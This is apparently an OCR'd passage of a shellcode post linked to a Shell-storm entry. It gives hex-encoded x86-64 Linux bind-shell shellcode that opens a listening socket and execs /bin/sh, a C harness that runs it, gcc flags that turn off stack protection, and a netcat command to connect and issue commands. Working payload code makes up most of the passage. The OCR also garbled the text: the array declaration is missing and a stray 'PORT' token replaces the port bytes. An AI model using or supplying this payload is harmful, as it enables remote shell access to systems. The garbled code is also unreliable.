```c	
"\x48\x31\xc0\x48\x31\xff\x48\x31\xf6\x48\x31\xd2\x4d\x31\xc0\x6a"
"\x02\x5f\x6a\x01\x5e\x6a\x06\x5a\x6a\x29\x58\x0f\x05\x49\x89\xc0"
"\x4d\x31\xd2\x41\x52\x41\x52\xc6\x04\x24\x02\x66\xc7\x44\x24\x02"
PORT"\x48\x89\xe6\x41\x50\x5f\x6a\x10\x5a\x6a\x31\x58\x0f\x05"
"\x41\x50\x5f\x6a\x01\x5e\x6a\x32\x58\x0f\x05\x48\x89\xe6\x48\x31"
"\xc9\xb1\x10\x51\x48\x89\xe2\x41\x50\x5f\x6a\x2b\x58\x0f\x05\x59"
"\x4d\x31\xc9\x49\x89\xc1\x4c\x89\xcf\x48\x31\xf6\x6a\x03\x5e\x48"
"\xff\xce\x6a\x21\x58\x0f\x05\x75\xf6\x48\x31\xff\x57\x57\x5e\x5a"
"\x48\xbf\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xef\x08\x57\x54"
"\x5f\x6a\x3b\x58\x0f\x05";
 
int
main(void)
{
    printf("Shellcode Length: %dn", (int)sizeof(code)-1);
    int (*ret)() = (int(*)())code;
    ret();
    return 0;
}
```
Build the code:
```
$ gcc -fno-stack-protector -z execstack -o shellcode shellcode.c
```
The options for gcc are to disable stack protection and enable stack execution respectively. Without these options the code will cause a segfault.

Test above executable on localhost using netcat under X:
Open a terminal under working directory,
```
$ ./shellcode
```
Open another terminal,
```
$ nc localhost 31337
```
commands can now be executed in this terminal e.g. try typing ls to see contents of shellcode directory.

This shellcode runs to 150 bytes in length, no doubt whatsoever it could be shortened, that was not my goal, but I’m sure I will revisit this code again to update it when I learn something more.


Shell-storm database entry -- http://shell-storm.org/shellcode/files/shellcode-858.php
